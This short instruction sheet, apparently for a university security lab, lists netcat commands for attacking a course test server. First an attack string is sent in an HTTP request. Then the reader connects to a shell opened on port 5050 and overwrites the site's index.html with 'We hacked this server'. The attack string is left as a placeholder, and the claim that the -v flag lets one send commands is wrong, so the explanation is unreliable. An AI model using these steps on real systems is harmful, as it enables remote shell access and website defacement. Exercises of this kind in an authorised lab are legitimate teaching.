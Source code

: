 Sequence of commands to run:

1) echo -e "GET <attack string> HTTP" | nc 9218

2) to connect to port 5050 after opening it (open another tab in termial)
and to also send in the string that replaces the content of index.html in the remote server:

nc -v 310test.cs.duke.edu 5050 cd www echo "We hacked this server" > index.html


-v lets you send in additional command to change the file index.html in the remote server
